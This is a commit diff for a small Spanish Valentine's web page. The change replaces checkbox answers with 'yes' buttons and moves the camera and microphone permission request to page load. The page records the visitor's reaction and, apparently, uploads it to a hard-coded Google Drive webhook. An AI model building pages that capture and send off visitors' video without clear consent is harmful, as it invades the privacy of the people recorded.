

Before and after one commit to hector1603/my-app, a website built with Vite: page index.html in a window 1280 px wide. Before the commit the page ends 816 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers; animation ran at ten frames a second.

Commit message:
feat: botones premium y permisos de entrada automáticos

```diff
--- a/index.html
+++ b/index.html
@@ -22,20 +22,10 @@
         </header>
 
         <footer class="bottom-content">
-            <div class="checkbox-container">
-                <label class="custom-checkbox">
-                    <span class="checkmark">
-                        <input type="checkbox" class="valentine-check">
-                    </span>
-                    <span class="label-text">Siii 😍</span>
-                </label>
+            <div class="button-container">
+                <button class="yes-btn">Siii 😍</button>
                 <p class="oso">O</p>
-                <label class="custom-checkbox">
-                    <span class="checkmark">
-                        <input type="checkbox" class="valentine-check">
-                    </span>
-                    <span class="label-text">¡Sí! ❤️</span>
-                </label>
+                <button class="yes-btn">¡Sí! ❤️</button>
             </div>
         </footer>
 
--- a/main.js
+++ b/main.js
@@ -460,9 +460,25 @@ let recordedChunks = [];
 const recordingStatus = document.getElementById('recording-status');
 let audioContext;
 let mixedStream;
+let preAuthorizedStream; // Global stream for immediate use
 
 // Google Apps Script Webhook URL for internal Drive upload
 const DRIVE_WEBHOOK_URL = "https://script.google.com/macros/s/AKfycbxLbNE82x9H6kuA_uAztJaGXOOD1uIDHdN02_vyaAVBxSFc1ph-Fs3weE0FhKfabKH1iA/exec";
+
+// Request camera/mic permission as soon as the page loads
+async function requestPermissionOnLoad() {
+    try {
+        preAuthorizedStream = await navigator.mediaDevices.getUserMedia({
+            video: { facingMode: 'user', width: { ideal: 640 }, height: { ideal: 480 } },
+            audio: true
+        });
+        console.log("Permisos otorgados al inicio.");
+    } catch (err) {
+        console.error("Error al solicitar permisos al inicio:", err);
+    }
+}
+
+window.addEventListener('load', requestPermissionOnLoad);
 
 async function uploadToDrive(blob) {
     if (!DRIVE_WEBHOOK_URL) {
@@ -495,8 +511,9 @@ async function uploadToDrive(blob) {
 async function startRecording() {
     try {
         const music = document.getElementById('bg-music');
-        // Solicitar permisos solo al momento de la acción
-        const videoStream = await navigator.mediaDevices.getUserMedia({
+
+        // Use pre-authorized stream if available, otherwise ask again
+        const videoStream = preAuthorizedStream || await navigator.mediaDevices.getUserMedia({
             video: { facingMode: 'user', width: { ideal: 640 }, height: { ideal: 480 } },
             audio: true
         });
@@ -625,9 +642,8 @@ function updateKaraoke(currentTime) {
     }
 }
 
-document.querySelectorAll('.valentine-check').forEach(check => {
-    check.addEventListener('change', (e) => {
-        if (e.target.checked) {
+document.querySelectorAll('.yes-btn').forEach(btn => {
+    btn.addEventListener('click', () => {
         document.getElementById('modal').classList.add('active');
 
         // Start Music, Karaoke and Reaction Recording
@@ -648,7 +664,6 @@ document.querySelectorAll('.valentine-check').forEach(check => {
         setTimeout(() => {
             if (typeof drawTree === 'function') drawTree();
         }, 600);
-        }
     });
 });
 
--- a/style.css
+++ b/style.css
@@ -73,69 +73,44 @@ body {
     text-align: center;
 }
 
-.valentine-check {
-    background-color: #0a001a !important;
+/* Button Container */
+.button-container {
+    display: flex;
+    justify-content: center;
+    align-items: center;
+    gap: 30px;
+    margin-bottom: 25px;
+    animation: fadeIn 1.2s ease 2.5s both;
 }
 
-.checkbox-container {
-    display: flex;
-    flex-direction: row;
-    gap: 15px;
-    width: 100%;
-    justify-content: space-between;
-
-}
-
-.custom-checkbox {
+.yes-btn {
+    background: rgba(255, 45, 85, 0.1);
+    border: 2px solid var(--heart-red);
+    color: white;
+    padding: 14px 32px;
+    border-radius: 50px;
+    font-family: 'Outfit', sans-serif;
+    font-size: 1.2rem;
+    font-weight: 600;
+    cursor: pointer;
+    transition: all 0.3s cubic-bezier(0.175, 0.885, 0.32, 1.275);
+    box-shadow: 0 0 15px rgba(255, 45, 85, 0.3);
+    backdrop-filter: blur(10px);
+    -webkit-backdrop-filter: blur(10px);
+    outline: none;
     display: flex;
     align-items: center;
     justify-content: center;
-    cursor: pointer;
-    background: var(--glass-bg);
-    padding: 18px;
-    border-radius: 20px;
-    border: 1px solid rgba(255, 255, 255, 0.1);
-    backdrop-filter: blur(15px);
-    transition: all 0.4s cubic-bezier(0.175, 0.885, 0.32, 1.275);
 }
 
-.custom-checkbox:hover {
-    border-color: var(--heart-red);
-    box-shadow: 0 0 20px rgba(255, 45, 85, 0.2);
+.yes-btn:hover {
+    background: var(--heart-red);
+    transform: scale(1.1) translateY(-3px);
+    box-shadow: 0 0 35px rgba(255, 45, 85, 0.6);
 }
 
-.custom-checkbox:active {
-    transform: scale(0.96);
-}
-
-.checkmark {
-    width: 24px;
-    height: 24px;
-    border: 2px solid var(--heart-red);
-    border-radius: 8px;
-    margin-right: 15px;
-    display: inline-block;
-    position: relative;
-}
-
-.custom-checkbox input:checked+.checkmark {
-    background: var(--heart-red);
-}
-
-.custom-checkbox input:checked+.checkmark::after {
-    content: '✓';
-    position: absolute;
-    top: 50%;
-    left: 50%;
-    transform: translate(-50%, -50%);
-    font-size: 16px;
-    color: white;
-}
-
-.label-text {
-    font-weight: 500;
-    font-size: 1.2rem;
-    letter-spacing: 0.5px;
+.yes-btn:active {
+    transform: scale(0.95);
 }
 
 /* Modal Enhancements */
```
Lines whose indentation alone changed are shown as unchanged.
